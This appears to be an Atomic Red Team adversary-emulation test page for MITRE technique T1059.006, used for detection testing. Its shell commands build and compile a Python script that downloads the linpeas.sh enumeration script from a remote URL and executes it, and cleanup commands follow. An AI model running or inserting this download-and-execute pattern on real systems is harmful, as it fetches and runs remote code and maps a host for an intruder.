


<br/>
<br/>

## Atomic Test #3 - Execute Python via Python executables
Create Python file (.py) then compile to binary (.pyc) that downloads an external malicious script then executes locally using the supplied executor and arguments

**Supported Platforms:** Linux


**auto_generated_guid:** 0b44d79b-570a-4b27-a31f-3bf2156e5eaa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| python_script_name | Name of Python script name | path | T1059.006.py|
| script_url | URL hosting external malicious payload | string | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh|
| payload_file_name | Shell script file name downloaded from the script_url | string | T1059.006-payload|
| executor | Payload or script interpreter / executor | string | sh|
| script_args | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files | string | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles|
| python_binary_name | Name of Python file to be compiled | path | T1059.006.pyc|


#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
echo 'import requests' > #{python_script_name}
echo 'import os' >> #{python_script_name}
echo 'url = "#{script_url}"' >> #{python_script_name}
echo 'malicious_command = "#{executor} #{payload_file_name} #{script_args}"' >> #{python_script_name}
echo 'session = requests.session()' >> #{python_script_name}
echo 'source = session.get(url).content' >> #{python_script_name}
echo 'fd = open("#{payload_file_name}", "wb+")' >> #{python_script_name}
echo 'fd.write(source)' >> #{python_script_name}
echo 'fd.close()' >> #{python_script_name}
echo 'os.system(malicious_command)' >> #{python_script_name}
$which_python -c 'import py_compile; py_compile.compile("#{python_script_name}", "#{python_binary_name}")'
$which_python #{python_binary_name}
```

#### Cleanup Commands:
```sh
rm #{python_binary_name} #{python_script_name} #{payload_file_name}
```
